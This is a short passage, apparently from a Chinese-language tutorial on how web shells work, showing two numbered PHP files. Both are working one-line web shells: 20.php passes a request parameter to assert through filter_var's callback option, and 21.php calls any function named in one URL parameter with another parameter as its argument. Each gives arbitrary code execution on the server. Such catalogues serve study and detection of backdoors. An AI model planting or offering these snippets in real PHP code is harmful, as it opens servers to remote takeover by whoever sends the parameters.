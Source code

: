 ![](webshell原理.assets/20.png)

#### 20.php

```php
<?php
	filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));
?>
```

#### 21.php

```php
<?php $_GET[a]($_GET[b]);?>
```
